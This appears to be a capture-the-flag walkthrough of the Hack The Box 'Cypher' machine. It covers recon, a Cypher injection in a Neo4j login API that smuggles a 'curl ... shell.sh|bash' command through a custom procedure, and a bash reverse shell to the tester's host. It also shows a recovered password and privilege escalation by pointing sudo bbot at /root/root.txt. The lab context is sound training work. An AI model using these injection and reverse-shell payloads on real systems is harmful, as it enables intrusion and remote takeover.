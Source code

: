 Let's scan the IP address `10.10.11.57`
```bash
sudo nmap -v -sC -sV 10.10.11.57 -oN nmap/initial
```
![[Pasted image 20250405174615.png]]
Let's go to the website
![[Pasted image 20250405174710.png]]
Let's scan the hidden directories of the website
```bash
ffuf -u http://cypher.htb/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![[Pasted image 20250408124013.png]]
If we go to `cypher.htb/testing`, we will see a `.jar` file:
![[Pasted image 20250405201805.png]]
Download and unpack it
```bash
jar xf custom-apoc-extension-1.0-SNAPSHOT.jar
```
![[Pasted image 20250405201950.png]]
We can see that `Neo4j v5.23.0` is running on the site.

>[!info] Note
>**Neo4j** is an open source graph database management system implemented in Java.

If we go to `cypher.htb/api`, we will see the following:
![[Pasted image 20250405174835.png]]
Let's scan the hidden directories `cypher.htb/api/`:
```bash
ffuf -u http://cypher.htb/api/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![[Pasted image 20250405175901.png]]
If we go to the address `cypher.htb/api/auth`, we will see the following:
![[Pasted image 20250405175038.png]]
This method is not accepted. Let's intercept the request in Burp Suite and send it to `Repeater`
![[Pasted image 20250405181910.png]]
A `GET` request is sent. Let's change it to `POST`
![[Pasted image 20250405181951.png]]
<div style="page-break-after: always;"></div>
The code for the `cypher.htb/login` page contained the following:
```JavaScript
// TODO: don't store user accounts in neo4j
    function doLogin(e) {
      e.preventDefault();
      var username = $("#usernamefield").val();
      var password = $("#passwordfield").val();
      $.ajax({
        url: '/api/auth',
        type: 'POST',
        contentType: 'application/json',
        data: JSON.stringify({ username: username, password: password }),
        success: function (r) {
          window.location.replace("/demo");
        },
        error: function (r) {
          if (r.status == 401) {
            notify("Access denied");
          } else {
            notify(r.responseText);
          }
        }
      });
    }

    $("form").keypress(function (e) {
      if (e.keyCode == 13) {
        doLogin(e);
      }
    })

    $("#loginsubmit").click(doLogin);
```
Change `Content-Type` to `application/json` and add authentication parameters
```Request
{
  “username”: “admin”,
  “password”: “password”
}
```
![[Pasted image 20250405184328.png]]
We can see that this is the correct request, but the data is incorrect. Let's try applying an SQL injection
![[Pasted image 20250405184420.png]]
The `Python` file error was displayed
The following was found in the error:
![[Pasted image 20250405184538.png]]
It is clear that this is `Neo4j`, which executes `Cypher` queries, and that the SQL injection did not work in the SQL query.
Commenting in `Neo4j` works not through `--`, but through `//`. Let's try to throw a `reverse shell` through authorization in `API`. 
First, let's create a `Reverse Shell` and start the HTTP server
```bash
echo “/bin/bash -i >& /dev/tcp/10.10.14.180/4444 0>&1” > shell.sh
```
```bash
sudo python3 -m http.server 80
```
Next, insert the following code into `username`:
```bash
test' return h.value as a UNION CALL custom.getUrlStatusCode(\“cypher.com; curl 10.10.14.180/shell.sh|bash;#\”) YIELD statusCode AS a RETURN a;//
```
1. Closing the original query
- `test'` — closes the quotation marks in the original query:
```cypher
  MATCH (u:USER)-[:SECRET]->(h:SHA1) 
  WHERE u.name = ‘test’  <-- Closed here
  ```
2. Substituting the returned data:
- `return h.value as a` — returns the value `h.value` under the alias `a` to match the UNION structure.
3. UNION attack:
- `UNION` — combines the result of the original query with the result of a new subquery. 
  **Purpose:** To add arbitrary code to the original query.
4. Calling a dangerous function:
- `CALL custom.getUrlStatusCode(...)` — calls the custom function `getUrlStatusCode`, which probably performs HTTP requests.  
  **Vulnerability:** The function does not sanitize input data, allowing commands to be injected via `;`.
5. Injecting commands into the URL:
- `“cypher.com; curl 10.10.14.180/shell.sh|bash;#”`  
  **Breakdown:**
- `cypher.com` — legitimate part of the URL (to bypass possible checks).
  - `;` — command separator in shell.
  - `curl 10.10.14.180/shell.sh | bash` — downloads the `shell.sh` script from your server and executes it via `bash`.
  - `#` — comments out the rest of the URL (to avoid syntax errors).
6. Completing the query:
- `YIELD statusCode AS a RETURN a;//`
- `YIELD` and `RETURN` — correctly complete the Cypher query.
- `;//` — closes the query and comments out the rest of the original code.
![[Pasted image 20250405203316.png]]
There is a user `graphasm`. Let's see what he has in his home directory
![[Pasted image 20250405205006.png]]
```Password
cU4btyib.20xtCMCXkBmerhK
```
This password does not work for the user `neo4j`. Perhaps it will work for the user `graphasm`.
![[Pasted image 20250405205831.png]]
Let's check what commands it can execute with sudo
![[Pasted image 20250405210112.png]]
We can call the `BBOT` tool and execute commands associated with it. Let's see what flags it has:
```bash
graphasm@cypher:~$ /usr/local/bin/bbot -h
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot

[INFO] Creating BBOT config at /home/graphasm/.config/bbot/bbot.yml
[INFO] Creating BBOT secrets at /home/graphasm/.config/bbot/secrets.yml
usage: bbot [-h] [-t TARGET [TARGET ...]] [-w WHITELIST [WHITELIST ...]] [-b BLACKLIST [BLACKLIST ...]] [--strict-scope] [-p [PRESET ...]] [-c [CONFIG ...]] [-lp]
            [-m MODULE [MODULE ...]] [-l] [-lmo] [-em MODULE [MODULE ...]] [-f FLAG [FLAG ...]] [-lf] [-rf FLAG [FLAG ...]] [-ef FLAG [FLAG ...]] [--allow-deadly]
            [-n SCAN_NAME] [-v] [-d] [-s] [--force] [-y] [--dry-run] [--current-preset] [--current-preset-full] [-o DIR] [-om MODULE [MODULE ...]] [--json] [--brief]
            [--event-types EVENT_TYPES [EVENT_TYPES ...]] [--no-deps | --force-deps | --retry-deps | --ignore-failed-deps | --install-all-deps] [--version]
            [-H CUSTOM_HEADERS [CUSTOM_HEADERS ...]] [--custom-yara-rules CUSTOM_YARA_RULES]

Bighuge BLS OSINT Tool

options:
  -h, --help            show this help message and exit

Target:
  -t TARGET [TARGET ...], --targets TARGET [TARGET ...]
                        Targets to seed the scan
...
...
...
EXAMPLES

    Subdomains:
        bbot -t evilcorp.com -p subdomain-enum

    Subdomains (passive only):
        bbot -t evilcorp.com -p subdomain-enum -rf passive

    Subdomains + port scan + web screenshots:
        bbot -t evilcorp.com -p subdomain-enum -m portscan gowitness -n my_scan -o .

    Subdomains + basic web scan:
        bbot -t evilcorp.com -p subdomain-enum web-basic

    Web spider:
        bbot -t www.evilcorp.com -p spider -c web.spider_distance=2 web.spider_depth=2

    Everything everywhere all at once:
        bbot -t evilcorp.com -p kitchen-sink
```
There is a `-t` flag, to which we give a target for scanning. Let's try giving it the target `/root/root.txt`
```bash
sudo /usr/local/bin/bbot -t /root/root.txt
```
![[Pasted image 20250408122418.png]]
`BBOT` interpreted `/root/root.txt` as a file with targets. `BBOT` tried to read this file as a list of targets to scan (e.g., domains, IP addresses), but instead it got the contents of the `root.txt` file, which most likely looks like a hash (or a random string): `25bb48f1ea0967eed85814a347932f86`
It attempted to process this string as a DNS name `[DNS_NAME_UNRESOLVED] 25bb48f1ea0967eed85814a347932f86 TARGET`. Since the string is not a valid domain, BBOT marked it as unresolved but logged it.
